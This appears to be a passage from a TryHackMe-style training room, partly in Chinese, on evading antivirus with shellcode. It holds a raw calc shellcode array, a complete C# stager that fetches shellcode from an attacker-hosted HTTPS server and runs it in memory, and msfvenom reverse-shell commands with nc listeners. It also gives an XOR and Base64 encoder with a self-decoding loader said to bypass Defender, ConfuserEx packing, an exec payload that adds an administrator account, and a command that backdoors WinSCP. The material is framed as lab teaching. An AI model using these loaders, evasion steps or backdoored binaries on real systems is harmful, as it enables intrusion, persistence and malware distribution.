  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```

如果我们将输出与之前使用Metasploit创建的shellcode进行比较，它们是匹配的。

:::info 回答以下问题

<details>

<summary> 应用我们在本任务中讨论的内容，为下一个主题做好准备！ </summary>

```plaintext
No answer needed
```

</details>

:::

## 任务 6 分阶段载荷

在我们的目标中绕过 AV，我们将找到两种主要方法来向受害者交付最终的 shellcode。 根据方法的不同，您会发现载荷通常被分类为**分阶段**或**无阶段**载荷。 在本任务中，我们将探讨两种方法的差异以及每种方法的优势。

### 无阶段载荷

无阶段载荷将最终的 shellcode 直接嵌入到自身中。 将其视为一个打包的应用程序，以单步过程执行 shellcode。 在之前的任务中，我们嵌入了一个可执行文件，该文件嵌入了一个简单的 `calc` shellcode，从而创建了一个无阶段载荷。

<!--  -->


In the example above, when the user executes the malicious payload, the embedded shellcode will run, providing a reverse shell to the attacker.

### Staged Payloads

Staged payloads work by using intermediary shellcodes that act as steps leading to the execution of a final shellcode. Each of these intermediary shellcodes is known as a **stager**, and its primary goal is to provide a means to retrieve the final shellcode and execute it eventually.

While there might be payloads with several stages, the usual case involves having a two-stage payload where the first stage, which we'll call **stage0**, is a stub shellcode that will connect back to the attacker's machine to download the final shellcode to be executed.

<!--  -->


Once retrieved, the stage0 stub will inject the final shellcode somewhere in the memory of the payload's process and execute it (as shown below).

<!--  -->


### Staged vs. Stageless

When deciding which type of payload to use, we must be aware of the environment we'll be attacking. Each payload type has advantages and disadvantages depending on the specific attack scenario.

In the case of stageless payloads, you will find the following advantages:

- The resulting executable packs all that is needed to get our shellcode working.
- The payload will execute without requiring additional network connections. The fewer the network interactions, the lesser your chances of being detected by an IPS.
- If you are attacking a host with very restricted network connectivity, you may want your whole payload to be in a single package.

For staged payloads, you will have:

- Small footprint on disk. Since stage0 is only in charge of downloading the final shellcode, it will most likely be small in size.
- The final shellcode isn't embedded into the executable. If your payload is captured, the Blue Team will only have access to the stage0 stub and nothing more.
- The final shellcode is loaded in memory and never touches the disk. This makes it less prone to be detected by AV solutions.
- You can reuse the same stage0 dropper for many shellcodes, as you can simply replace the final shellcode that gets served to the victim machine.

In conclusion, we can't say that either type is better than the other unless we add some context to it. In general, stageless payloads are better suited for networks with lots of perimeter security, as it doesn't rely on having to download the final shellcode from the Internet. If, for example, you are performing a USB Drop Attack to target computers in a closed network environment where you know you won't get a connection back to your machine, stageless is the way to go.

Staged payloads, on the other hand, are great when you want your footprint on the local machine to be reduced to a minimum. Since they execute the final payload in memory, some AV solutions might find it harder to detect them. They are also great for avoiding exposing your shellcodes (which usually take considerable time to prepare), as the shellcode isn't dropped into the victim's disk at any point (as an artifact).

### Stagers in Metasploit

When creating payloads with msfvenom or using them directly in Metasploit, you can choose to use either staged or stageless payloads. As an example, if you want to generate a reverse TCP shell, you will find two payloads exist for that purpose with slightly different names (notice the `_` versus `/` after `shell`):

| Payload                                                                 | Type              |
| :---------------------------------------------------------------------- | :---------------- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp                      | Staged payload    |

You will generally find that the same name patterns are applied to other types of shells. To use a stageless Meterpreter, for example, we would use the `windows/x64/meterpreter_reverse_tcp`, rather than `windows/x64/meterpreter/reverse_tcp`, which works as its staged counterpart.

### Creating Your Own Stager

To create a staged payload, we will use a slightly modified version of the stager code provided by [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs). The full code of our stager can be obtained here, but is also available in your Windows machine at `C:\Tools\CS Files\StagedPayload.cs`:

<details>

<summary> ClFull Payload Code (Click to read) </summary>

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

</details>

The code may look intimidating at first but is relatively straightforward. Let's analyze what it does step by step.

The first part of the code will import some Windows API functions via P/Invoke. The functions we need are the following three from `kernel32.dll`:

| WinAPI Function                                                                                                                             | Description                                                                                                                     |
| :------------------------------------------------------------------------------------------------------------------------------------------ | :------------------------------------------------------------------------------------------------------------------------------ |
| [VirtualAlloc()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)                 | Allows us to reserve some memory to be used by our shellcode.                                                   |
| [CreateThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) | Creates a thread as part of the current process.                                                                |
| [WaitForSingleObject()](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)     | Used for thread synchronization. It allows us to wait for a thread to finish before continuing. |

The part of the code in charge of importing these functions is the following:

```csharp
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

The most significant part of our code will be in the `Stager()` function, where the stager logic will be implemented. The Stager function will receive a URL from where the shellcode to be executed will be downloaded.

The first part of the `Stager()` function will create a new `WebClient()` object that allows us to download the shellcode using web requests. Before making the actual request, we will overwrite the `ServerCertificateValidationCallback` method in charge of validating SSL certificates when using HTTPS requests so that the WebClient doesn't complain about self-signed or invalid certificates, which we will be using in the web server hosting the payloads. After that, we will call the `DownloadData()` method to download the shellcode from the given URL and store it into the `shellcode` variable:

```csharp
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Once our shellcode is downloaded and available in the `shellcode` variable, we'll need to copy it into executable memory before actually running it. We use `VirtualAlloc()` to request a memory block from the operating system. Notice that we request enough memory to allocate `shellcode.Length` bytes, and set the `PAGE_EXECUTE_READWRITE` flag, making the assigned memory executable, readable and writable. Once our executable memory block is reserved and assigned to the codeAddr variable, we use Marshal.Copy() to copy the contents of the shellcode variable in the codeAddr variable.

```csharp
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the `CreateThread()` function to spawn a new thread on the current process that will execute our shellcode. The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode as if it were a regular function. The fifth parameter is set to 0, meaning the thread will start immediately.

Once the thread has been created, we will call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute:

```csharp
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

To compile the code, we suggest copying it into a Windows machine as a file called staged-payload.cs and compiling it with the following command:

```shell title="PowerShell"
PS C:\> csc staged-payload.cs
```

### Using our stager to run a reverse shell

Once our payload is compiled, we will need to set up a web server to host the final shellcode. Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory. Let's start by generating a shellcode (the name of the file needs to match the URL in our stager):

```shell title="AttackBox"
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.

Now that we have a shellcode, let's set up a simple HTTPS server. First, we will need to create a self-signed certificate with the following command:

```shell title="AttackBox"
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

You will be asked for some information, but feel free to press enter for any requested information, as we don't need the SSL certificate to be valid. Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:

```shell title="AttackBox"
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

With all of this ready, we can now execute our stager payload. The stager should connect to the HTTPS server and retrieve the shellcode.bin file to load it into memory and run it on the victim machine. Remember to set up an nc listener to receive the reverse shell on the same port specified when running msfvenom:

```shell title="AttackBox"
user@AttackBox$ nc -lvp 7474
```

:::info Answer the questions below

<details>

<summary> Do staged payloads deliver the full content of our payload in a single package? (yea/nay) </summary>

```plaintext
nay
```

</details>

<details>

<summary> Is the Metasploit payload `windows/x64/meterpreter_reverse_https` a staged payload? (yea/nay) </summary>

```plaintext
nay
```

</details>

<details>

<summary> Is the stage0 of a staged payload in charge of downloading the final payload to be executed? (yea/nay) </summary>

```plaintext
yea
```

</details>

<details>

<summary> Follow the instructions to create a staged payload and upload it into the THM Antivirus Check at `http://MACHINE_IP/` </summary>

```plaintext
No answer needed
```

</details>

:::

## Task 7 Introduction to Encoding and Encryption

### What is Encoding?

Encoding is the process of changing the data from its original state into a specific format depending on the algorithm or type of encoding. It can be applied to many data types such as videos, HTML, URLs, and binary files (EXE, Images, etc.).

Encoding is an important concept that is commonly used for various purposes, including but not limited to:

- Program compiling and execution
- Data storage and transmission
- Data processing such as file conversion

Similarly, when it comes to AV evasion techniques, encoding is also used to hide shellcode strings within a binary. However, encoding is not enough for evasion purposes. Nowadays, AV software is more intelligent and can analyze a binary, and once an encoded string is found, it is decoded to check the text's original form.

You can also use two or more encoding algorithms in tandem to make it harder for the AV to figure out the hidden content. The following figure shows that we converted the "THM" string into hexadecimal representation and then encoded it using Base64. In this case, you need to make sure that your dropper now handles such encoding to restore the string to its original state.



### What is Encryption?

Encryption is one of the essential elements of information and data security which focuses on preventing unauthorized access and manipulation of data. The encryption process involves converting plaintext (unencrypted content) into an encrypted version called Ciphertext. The Ciphertext can't be read or decrypted without knowing the algorithm used in encryption as well as the key.

Like encoding, encryption techniques are used for various purposes, such as storing and transmitting data securely, as well as end-to-end encryption. Encryption can be used in two ways: having a shared key between two parties or using public and private keys.

For more information about encryption, we encourage you to check [Encryption - Crypto 101](https://tryhackme.com/room/encryptioncrypto101) room.


### Why do we Need to Know About Encoding and Encryption?

AV vendors implement their AV software to blocklist most public tools (such as Metasploit and others) using static or dynamic detection techniques. Therefore, without modifying the shellcode generated by these public tools, the detection rate for your dropper is high.

Encoding and encryption can be used in AV evasion techniques where we encode and/or encrypt shellcode used in a dropper to hide it from AV software during the runtime. Also, the two techniques can be used not only to hide the shellcode but also functions, variables, etc. In this room, we mainly focus on encrypting the shellcode to evade Windows Defender.

:::info Answer the questions below

<details>

<summary> Is encoding shellcode only enough to evade Antivirus software? (yea/nay) </summary>

```plaintext
nay
```

</details>

<details>

<summary> Do encoding techniques use a key to encode strings or files? (yea/nay) </summary>

```plaintext
nay
```

</details>

<details>

<summary> Do encryption algorithms use a key to encrypt strings or files? (yea/nay) </summary>

```plaintext
yea
```

</details>

:::

## Task 8 Shellcode Encoding and Encryption

### Encode using MSFVenom

Public Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim's disk.

Let's generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to msfvenom with the following command:

```shell title="Listing Encoders within the Metasploit Framework"
user@AttackBox$ msfvenom --list encoders | grep excellent
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

We can indicate we want to use the `shikata_ga_nai` encoder with the `-e` (encoder) switch and then specify we want to encode the payload three times with the `-i` (iterations) switch:

```shell title="Encoding using the Metasploit Framework (Shikata_ga_nai)"
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```

If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:

<!--  -->


If encoding doesn't work, we can always try encrypting the payload. Intuitively, we would expect this to have a higher success rating, as decrypting the payload should prove a harder task for the AV. Let's try that now.

### Encryption using MSFVenom

You can easily generate encrypted payloads using msfvenom. The choices for encryption algorithms are, however, a bit scarce. To list the available encryption algorithms, you can use the following command:

```shell title="Listing encryption modules within the Metasploit Framework"
user@AttackBox$ msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

Let's build an XOR encrypted payload. For this type of algorithm, you will need to specify a key. The command would look as follows:

```shell title="Xoring Shellcode using the Metasploit Framework"
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

Once again, if we upload the resulting shell to the THM Antivirus Check! page at `http://MACHINE_IP/`, it will still be flagged by the AV. The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.

### Creating a Custom Payload

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn't know what to do to analyze our payload. Notice you don't have to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.

Let's start by generating a reverse shell with msfvenom in CSharp format:

```shell title="Generate a CSharp shellcode Format"
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

### The Encoder

Before building our actual payload, we will create a program that will take the shellcode generated by msfvenom and encode it in any way we like. In this case, we will be XORing the payload with a custom key first and then encoding it using base64. Here's the complete code for the encoder (you can also find this code in your Windows machine at `C:\Tools\CS Files\Encryptor.cs`):

<details>

<summary> Full Payload Code (Click to read) </summary>

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

</details>

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the buf variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:

```shell title="Compiling and running our custom CSharp encoder"
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

### Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at `C:\Tools\CS Files\EncStageless.cs`):

<details>

<summary> Full Payload Code (Click to read) </summary>

```csharp
using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

</details>

Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let's compile our payload with the following command on the Windows machine:

```shell title="Compile Our Encrypted Payload"
C:\> csc.exe EncStageless.cs
```

Before running our payload, let's set up an `nc` listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:

```shell title="Set Up nc Listener"
user@AttackBox$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```

As you can see, simple adjustments are enough sometimes. Most of the time, any specific methods you find online won't probably work out of the box as detection signatures may already exist for them. However, using a bit of imagination to customize any method could prove enough for a successful bypass.

:::info Answer the questions below

<details>

<summary> Try to use this technique (combining encoding and encryption) on the THM Antivirus Check at `http://MACHINE_IP/`. Does it bypass the installed AV software? </summary>

```plaintext
No answer needed
```

</details>

:::

## Task 9 Packers

Another method to defeat disk-based AV detection is to use a packer. **Packers** are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains exactly the same. Packers do this with two main goals in mind:

- Compress the program so that it takes up less space.
- Protect the program from reverse engineering in general.

Packers are commonly used by software developers who would like to protect their software from being reverse engineered or cracked. They achieve some level of protection by implementing a mixture of transforms that include compressing, encrypting, adding debugging protections and many others. As you may have already guessed, packers are also commonly used to obfuscate malware without much effort.

There's quite a large number of packers out there, including UPX, MPRESS, Themida, and many others.

### Packing an application

While every packer operates differently, let's look at a basic example of what a simple packer would do.

When an application is packed, it will be transformed in some way using a **packing** function. The packing function needs to be able to obfuscate and transform the original code of the application in a way that can be reasonably reversed by an **unpacking** function so that the original functionality of the application is preserved. While sometimes the packer may add some code (to make debugging the application harder, for example), it will generally want to be able to get back the original code you wrote when executing it.


The packed version of the application will contain your packed application code. Since this new packed code is obfuscated, the application needs to be able to unpack the original code from it. To this end, the packer will embed a code stub that contains an unpacker and redirect the main entry point of the executable to it.

When your packed application gets executed, the following will happen:



1. The unpacker gets executed first, as it is the executable's entry point.
2. The unpacker reads the packed application's code.
3. The unpacker will write the original unpacked code somewhere in memory and direct the execution flow of the application to it.

### Packers and AVs

By now, we can see how packers help bypass AV solutions. Let's say you built a reverse shell executable, but the AV is catching it as malicious because it matches a known signature. In this case, using a packer will transform the reverse shell executable so that it doesn't match any known signatures while on disk. As a result, you should be able to distribute your payload to any machine's disk without much problem.

AV solutions, however, could still catch your packed application for a couple of reasons:

- While your original code might be transformed into something unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
- At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

### Packing our shellcode

Let's start from a basic C# shellcode. You can also find this code in your Windows machine at `C:\Tools\CS Files\UnEncStagelessPayload.cs`:

<details>

<summary> Full Payload Code (Click to read) </summary>

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

</details>

This payload takes a shellcode generated by msfvenom and runs it into a separate thread. For this to work, you'll need to generate a new shellcode and put it into the `shellcode` variable of the code:

```shell title="Command Prompt"
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

You can then compile your payload in the Windows machine using the following command:

```shell title="Command Prompt"
C:\> csc UnEncStagelessPayload.cs
```

Once you have a working executable, you can try uploading it to the THM Antivirus Check! page (link on the desktop). It should be flagged by the AV immediately. Let's use a packer on the same payload and see what happens.

We will use the [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) packer for this task, as our payloads are programmed on `.NET`. For your convenience, you can find a shortcut on your desktop to it.

ConfuserEx will require you to indicate the folders in which it will work. Be sure to select your desktop as the base directory, as shown in the image below. Once the base directory is set up, drag and drop the executable you want to pack on the interface, and you should end up with the following:



Let's go to the settings tab and select our payload. Once selected, hit the "+" button to add settings to your payload. This should create a rule named "true". Make sure to enable compression as well:


We will now edit the "true" rule and set it to the Maximum preset:


Finally, we will go to the "Protect!" tab and hit "Protect":


The new payload should be ready and hopefully won't trigger any alarms when uploaded to the THM Antivirus Checker! (shortcut available on your desktop). In fact, if you execute your payload and set up an `nc` listener, you should be able to get a shell back:

```shell title="AttackBox"
user@attackbox$ nc -lvp 7478
```

So far, so good, but remember we talked about AVs doing in-memory scanning? If you try running a command on your reverse shell, the AV will notice your shell and kill it. This is because Windows Defender will hook certain Windows API calls and do in-memory scanning whenever such API calls are used. In the case of any shell generated with msfvenom, CreateProcess() will be invoked and detected.

### So what do we do now?

While defeating in-memory scanning is out of the scope of this room, there are a couple of simple things you can do to avoid detection:

- **Just wait a bit**. Try spawning the reverse shell again and wait for around 5 minutes before sending any command. You'll see the AV won't complain anymore. The reason for this is that scanning memory is an expensive operation. Therefore, the AV will do it for a while after your process starts but will eventually stop.
- **Use smaller payloads**. The smaller the payload, the less likely it is to be detected. If you use msfvenom to get a single command executed instead of a reverse shell, the AV will have a harder time detecting it. You can try with `msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp` and see what happens.

If detection isn't an issue, you can even use a simple trick. From your reverse shell, run cmd.exe again. The AV will detect your payload and kill the associated process, but not the new cmd.exe you just spawned.

While every single AV will behave differently, most of the time, there will be a similar way around them, so it's worth exploring any weird behaviors you notice while testing.

:::info Answer the questions below

<details>

<summary> Will packers help you obfuscate your malicious code to bypass AV solutions? (是/否) </summary>

```plaintext
yea
```

</details>

<details>

<summary> Will packers often unpack the original code in-memory before running it? (是/否) </summary>

```plaintext
yea
```

</details>

<details>

<summary> Are some packers detected as malicious by some AV solutions? (yea/nay) </summary>

```plaintext
yea
```

</details>

<details>

<summary> Follow the instructions to create a packed payload and upload it into the THM Antivirus Check at `http://MACHINE_IP/` </summary>

```plaintext
No answer needed
```

</details>

:::

## Task 10 Binders

While not an AV bypass method, binders are also important when designing a malicious payload to be distributed to end users. A **binder** is a program that merges two (or more) executables into a single one. It is often used when you want to distribute your payload hidden inside another known program to fool users into believing they are executing a different program.


While every single binder might work slightly differently, they will basically add the code of your shellcode inside the legitimate program and have it executed somehow.

You could, for example, change the entry point in the PE header so that your shellcode executes right before the program and then redirect the execution back to the legitimate program once it is finished. This way, when the user clicks the resulting executable, your shellcode will get silently executed first and continue running the program normally without the user noticing it.

### Binding with msfvenom

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently. The method used by msfvenom injects your malicious program by creating an extra thread for it, so it is slightly different from what was mentioned before but achieves the same result. Having a separate thread is even better since your program won't get blocked in case your shellcode fails for some reason.

For this task, we will be backdooring the WinSCP executable available at `C:\Tools\WinSCP`.

To create a backdoored WinSCP.exe we can use the following command on our Windows machine:

**Note**: Metasploit is installed in the Windows machine for your convenience, but it might take up to three minutes to generate the payload (the produced warnings can be safely ignored).

```shell title="AttackBox"
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

